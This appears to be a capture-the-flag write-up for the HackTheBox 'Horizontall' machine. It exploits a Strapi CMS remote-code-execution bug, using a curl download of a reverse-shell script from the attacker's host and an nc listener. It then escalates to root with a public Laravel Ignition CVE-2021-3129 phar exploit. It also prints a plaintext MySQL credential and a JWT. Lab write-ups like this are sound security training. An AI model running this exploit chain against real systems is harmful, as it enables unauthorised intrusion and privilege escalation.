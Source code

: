## Info
---

### Credential
 User    | Password | Service | Note
---------|----------|---------|------
admin    |(reset)   |strapi   |
developer|#J!:F9Zt2u|MySQL    |


## Path
---
### User 
---
1. When visiting `http://10.10.11.105/`, we were redirected to `http://horizontall.htb`, so add that to `/etc/hosts`.
2. Ran `gobuster` and got ban, whoops!
3. From the icon of the website and the source code, I guessed that the website is built using Vue.
```
# HTML
 <body>$
     <noscript><strong>We're sorry but horizontall doesn't work properly without JavaScript enabled. Please enable it to continue.</strong></no    script>$
     <div id="app"></div>$
     <script src="/js/chunk-vendors.0e02b89e.js"></script>$
     <script src="/js/app.c68eb462.js"></script>$
 </body>$

# JS
y = {$
    name: "App",$
    components: {$
        Navbar: v,$
        Home: w$
    },$
    data: function() {$
        return {$
            reviews: []$
        }$
    },$
    methods: {$
        getReviews: function() {$
            var t = this;$
            r.a.get("http://api-prod.horizontall.htb/reviews").then((function(s) {$
                return t.reviews = s.data$
            }))$
        }$
    }$
}
```
4. From `app.c68eb462.js`, I recovered the base64 encoded image to `b64-img.png`, it was a GitHub icon.
5. From `app.c68eb462.js`, I found the API URL.
```
getReviews: function() {$
    var t = this;$
    r.a.get("http://api-prod.horizontall.htb/reviews").then((function(s) {$
        return t.reviews = s.data$
    }))$
}$
```
6. Added the API subdomain to `/etc/hosts`, then try to request to the API.
```
$ curl http://api-prod.horizontall.htb/reviews| jq
[
  {
    "id": 1,
    "name": "wail",
    "description": "This is good service",
    "stars": 4,
    "created_at": "2021-05-29T13:23:38.000Z",
    "updated_at": "2021-05-29T13:23:38.000Z"
  },
  {
    "id": 2,
    "name": "doe",
    "description": "i'm satisfied with the product",
    "stars": 5,
    "created_at": "2021-05-29T13:24:17.000Z",
    "updated_at": "2021-05-29T13:24:17.000Z"
  },
  {
    "id": 3,
    "name": "john",
    "description": "create service with minimum price i hop i can buy more in the futur",
    "stars": 5,
    "created_at": "2021-05-29T13:25:26.000Z",
    "updated_at": "2021-05-29T13:25:26.000Z"
  }
]
```
7. Visiting `http://api-prod.horizontall.htb/admin`, it was a login page and the title read "strapi", which was a "Open Source Nodes.js Headless CMS". Searched on `searchsplot`, it showed strapi might be vulerable to *Password Reset* and *RCE*.
```
$ searchsploit strapi
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Strapi 3.0.0-beta - Set Password (Unauthenticated)                                                                  | multiple/webapps/50237.py
Strapi 3.0.0-beta.17.7 - Remote Code Execution (RCE) (Authenticated)                                                | multiple/webapps/50238.py
Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)                                          | multiple/webapps/50239.py
```
8. When playing, the password had already been reset to `admin` by another player, so I guessed the credential and only needed to ran the RCE script.
```
$ python3 50238.py 'http://api-prod.horizontall.htb' 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwOTE4MjQ0LCJleHAiOjE2MzM1MTAyNDR9.6EhNcUkTStrJ-FNZOGyVdTSlWV5j0dMZNyuN6tVTCyo' 'curl 10.10.17.233:8000/rev.sh -o /tmp/a' 10.10.17.233
$ python3 50238.py 'http://api-prod.horizontall.htb' 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwOTE4MjQ0LCJleHAiOjE2MzM1MTAyNDR9.6EhNcUkTStrJ-FNZOGyVdTSlWV5j0dMZNyuN6tVTCyo' 'sh /tmp/a' 10.10.17.233

$ nc -lvnp 13337
Listening on 0.0.0.0 13337
Connection received on 10.10.11.105 37378
bash: cannot set terminal process group (1783): Inappropriate ioctl for device
bash: no job control in this shell
strapi@horizontall:~/myapi$
```
9. At the bottom left of the admin panel of strapi, it wrote `Powered by Strapi v3.0.0-beta.17.4`, so we can confirm it was affected. 

10. The user flag was readable by all users, so got the user flag. (After I reset the box, the permissino didn't change, so maybe it was intended ?)

### Root 
---
1. Found MySQL credential at `/opt/strapi/myapi/config/environments/development/database.json`.
```
strapi@horizontall:~/myapi/config/environments/development$ cat database.json
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```
2. `http://127.0.0.1:8000` was running `Laravel v8`.
```
strapi@horizontall:/etc$ netstat -l
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 localhost:8000          0.0.0.0:*               LISTEN
...
strapi@horizontall:/etc$ curl 127.0.0.1:8000
...
<div class="ml-4 text-center text-sm text-gray-500 sm:text-right sm:ml-0">
        Laravel v8 (PHP v7.4.18)
</div>
```

3. Since it showed the stack trace, Laravel was running in debug mode.
```
strapi@horizontall:/etc$ curl 127.0.0.1:8000/profiles
...
#49 /home/developer/myproject/vendor/laravel/framework/src/Illuminate/Pipeline/Pipeline.php(103): Illuminate\Pipeline\Pipeline-&gt;Illuminate\Pipeline\{closure}()
#50 /home/developer/myproject/vendor/laravel/framework/src/Illuminate/Foundation/Http/Kernel.php(141): Illuminate\Pipeline\Pipeline-&gt;then()
#51 /home/developer/myproject/vendor/laravel/framework/src/Illuminate/Foundation/Http/Kernel.php(110): Illuminate\Foundation\Http\Kernel-&gt;sendRequestThroughRouter()
#52 /home/developer/myproject/public/index.php(52): Illuminate\Foundation\Http\Kernel-&gt;handle()
#53 /home/developer/myproject/server.php(21): require_once('/home/developer...')
#54 {main}
-->
</body>
</html>
```
4. Laravel before version 8.4.2 was vulnerable to CVE-2021-3129, so I found the [script](https://github.com/ambionics/laravel-exploits
) on GitHub, then modified it to compat with `python3.6` and ran it to get the root flag.
```
$ php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 sysytem id

strapi@horizontall:/tmp/.a$ python3 laravel-ignition-rce.py http://127.0.0.1:8000/ /tmp/.a/exploit.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
uid=0(root) gid=0(root) groups=0(root)
--------------------------
+ Logs cleared
```
